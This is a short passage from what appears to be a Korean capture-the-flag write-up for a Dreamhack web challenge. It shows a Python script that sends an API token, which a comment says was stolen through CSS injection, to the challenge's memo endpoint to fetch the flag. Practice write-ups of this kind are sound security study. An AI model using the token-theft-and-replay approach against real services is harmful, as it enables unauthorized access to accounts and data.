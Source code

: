 1. 토큰 8자리를 알아내면 다음과 같은 코드를 작성하여 API-KEY에 실어 보내어 FLAG를 받음

```jsx
import requests

API_URL = "http://host1.dreamhack.games:20690/api/memo"
TOKEN   = "gsupsofu"  # 여기다가 CSS Injection으로 추출한 토큰 넣기

res = requests.get(API_URL, headers={"API-KEY": TOKEN})
print(res.json())
```